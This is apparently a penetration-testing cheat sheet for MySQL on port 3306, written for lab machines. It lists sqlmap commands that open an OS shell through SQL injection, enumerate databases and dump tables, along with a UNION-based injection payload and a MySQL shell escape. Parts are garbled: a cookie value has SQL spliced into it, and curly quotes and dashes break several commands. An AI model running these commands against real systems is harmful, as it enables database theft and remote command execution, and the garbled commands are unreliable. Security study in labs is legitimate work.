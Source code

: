 # Port 3306/tcp
## Stardard usage
 - MySQL
<hr>
10.129.228.56k
### Automatic tools for sql injection
#### sqlmap
-  for http endpoint api query
-  Usage:
   -  Reverse shell
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9USE mysql;l638e7n8ovv03e" --os-shell
    ```
   -  Init scanning db
    ```bash
    sqlmap ${curl_param}
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’
    ```
    - Enumerating for the databases
    ```bash
    sqlmap ${curl_param} --dbs
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’ –dbs
    ```
    - Get tables from a db
    ```bash
    sqlmap ${curl_param} -D db_name –tables
    ```
    - Dump a tables
    ```bash
    sqlmap ${curl_param} -D db_name -T tb_name –dump
    ```

### SQL inject query
- Resource: https://book.hacktricks.xyz/pentesting-web/sql-injection
- Union-basd
    ```sql
    "test' and 1=2 UNION SELECT 1,sqlite_version(),3 -- -
    ```

### Shell in msql
```bash
\! sh
```
